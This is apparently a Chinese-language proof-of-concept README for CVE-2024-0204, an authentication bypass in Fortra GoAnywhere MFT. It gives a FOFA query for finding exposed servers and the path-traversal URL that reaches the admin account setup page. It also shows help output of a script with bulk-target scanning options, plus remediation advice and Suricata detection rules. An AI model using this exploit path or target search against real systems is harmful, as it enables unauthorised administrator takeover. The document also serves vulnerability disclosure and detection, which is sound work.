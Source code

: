 ### 产品简介  
Fortra GoAnywhere MFT是美国Fortra公司的一种安全的文件传输解决方案。  

### 漏洞概述  
Fortra GoAnywhere MFT 7.4.1之前版本存在安全漏洞。攻击者利用该漏洞绕过身份验证，从而通过管理门户创建管理员用户。  

### 指纹识别  
fofa: "GoAnywhere" && icon_hash="1484947000"  

### 漏洞利用  
```
/goanywhere/images/..;/wizard/InitialAccountSetup.xhtml
```
![Image text](https://github.com/YUUKI4O4/POC/blob/main/CVE-2024-0204/1.png)

### 测试和利用脚本  
```
python3 CVE-2024-0204.py -h
usage: CVE-2024-0204.py [-h] [-t] [-r FILE] [-u URL]

### GoAnywhere MFT authentication bypass vulnerability (CVE-2024-0204). ###

options:
  -h, --help            show this help message and exit
  -t, --target_collection
                        Perform target collection
  -r FILE, --multi_objective_testing FILE
                        Perform multi-objective testing. e.g:python CVE-2024-0204.py -r ./url.txt
  -u URL, --single_objective_testing URL
                        Perform single-objective testing. e.g:python CVE-2024-0204.py -u http://xxx.xxx.xxx
```

### 修复建议  
1、请联系厂商进行修复。  
2、如非必要，禁止公网访问该系统。  
3、设置白名单访问。  

### Suricata rules  
```
alert http any any -> any any (msg:"GoAnywhere MFT authentication bypass vulnerability (CVE-2024-0204)"; flow:established,to_server; flowbits:set,GoAnywhere; content:"get";http_method;nocase; content:"/goanywhere/images/..\;/wizard/InitialAccountSetup.xhtml";http_uri;fast_pattern;nocase; reference:url,https://github.com/YUUKI4O4/POC/tree/main/CVE-2024-0204; reference:cve,CVE-2024-0204; classtype:CVE; metadata:created_at 2024-01-29,updated_at 2024-01-29,creater:YUUKI4O4; sid:25; rev:1;)
alert http any any -> any any (msg:"GoAnywhere MFT authentication bypass vulnerability (CVE-2024-0204)"; flow:established,from_server; flowbits:isset,GoAnywhere; content:"200";http_stat_code; content:"username";http_server_body;nocase; content:"password";http_server_body;nocase; reference:url,https://github.com/YUUKI4O4/POC/tree/main/CVE-2024-0204; reference:cve,CVE-2024-0204; classtype:CVE; metadata:created_at 2024-01-29,updated_at 2024-01-29,creater:YUUKI4O4; sid:26; rev:1;)
```
